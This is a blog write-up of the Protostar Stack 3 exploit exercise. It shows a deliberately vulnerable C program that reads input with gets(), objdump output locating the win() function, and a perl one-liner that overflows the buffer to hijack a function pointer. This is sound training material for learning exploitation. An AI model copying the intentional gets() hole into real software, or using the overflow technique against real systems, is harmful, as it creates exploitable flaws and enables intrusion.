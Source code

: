 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 3"
date: 2011-12-15T05:52:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack3) challenge starts getting a little bit more involved than the previous ones.  Instead of just providing a new value for the "modified" variable, we need to make the code jump to a method, changing the execution.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```

This means that first of all, we need to find the address of where the "win()" function is located in the program.  To do this, I used objdump, however you could use gdb as well, or any other disassembly program.  I have cut the useful part of the output below, since it gives a <i>lot</i> of information we don't need.

```
user@protostar:/opt/protostar/bin$ objdump -d stack3
...

08048424 <win>:
8048424:       55                      push   %ebp
8048425:       89 e5                   mov    %esp,%ebp
8048427:       83 ec 18                sub    $0x18,%esp
804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
8048436:       c9                      leave
8048437:       c3                      ret
...
```

From this, we can now see that the "win()" function is located at 0x08048424 in the memory.  So if we can get our program to jump there, it will execute that code.  Luckily the "fp" pointer in the code gets called if it is not equal to 0.  We just need to overwrite it with the memory value of "win()" by doing the following:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```